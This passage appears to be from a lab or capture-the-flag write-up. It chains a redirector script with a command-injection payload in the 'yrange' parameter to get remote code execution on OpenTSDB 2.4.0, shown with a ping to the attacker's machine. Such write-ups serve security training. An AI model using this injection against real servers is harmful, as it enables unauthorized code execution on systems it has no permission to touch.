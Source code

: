 After setting the redirector for the version endpoint, capture the login request and modify it a previously and forward it to server.
```json
{"short_revision":"14ab3ef","repo":"/home/hobbes/OFFICIAL/build","host":"clhbase","version":"2.4.0","full_revision":"14ab3ef8a865816cf920aa69f2e019b7261a7847","repo_status":"MINT","user":"hobbes","branch":"master","timestamp":"1545014415"}
```

Alright, we got the version information. It is using 2.4.0 and RCE via command injection exists in this version. The POC is already available for this vulnerability [here](https://github.com/OpenTSDB/opentsdb/issues/2051).
Lets modify the POC to send a ping to our machine first:
```bash
$ python3 redirector.py 80 'http://127.0.0.1:4242/q?start=2000/10/21-00:00:00&end=2020/10/25-15:56:44&m=sum:sys.cpu.nice&o=&ylabel=&xrange=10:10&yrange=%5B33:system(%27ping+-c+4+10.10.14.3%27)%5D&wxh=1516x644&style=linespoint&baba=lala&grid=t&json'
```

After forwarding the request, we’d get this error page. The important part of this is mentioned at the end of the error:
```json
...[snip]...

No such name for 'metrics': 'sys.cpu.nice'\n\tat net.opentsdb.uid.UniqueId$1GetIdCB.call(UniqueId.java:450) ~[tsdb-2.4.0.jar:14ab3ef]\n\tat net.opentsdb.uid.UniqueId$1GetIdCB.call(UniqueId.java:447) ~[tsdb-2.4.0.jar:14ab3ef]\n\t... 34 common frames omitted\n"}
```

The error is triggered because the `metrics` which we used (sys.cpu.nice) is not available, so it couldn’t complete the code execution. Lets find the metrics looking at the [documentation](http://opentsdb.net/docs/build/html/api_http/suggest.html).
```bash
$ python3 redirector.py 80 'http://127.0.0.1:4242/api/suggest?type=metrics'
```

We get a response back:
```bash
["http.stats.web.hits"]
```

Let’s modify our redirect link accordingly:
```bash
$ python3 redirector.py 80 'http://127.0.0.1:4242/q?start=2000/10/21-00:00:00&end=2020/10/25-15:56:44&m=sum:http.stats.web.hits&o=&ylabel=&xrange=10:10&yrange=%5B33:system(%27ping+-c+4+10.10.14.4%27)%5D&wxh=1516x644&style=linespoint&baba=lala&grid=t&json'
```

Success! We get RCE!
![](images/image5.png)
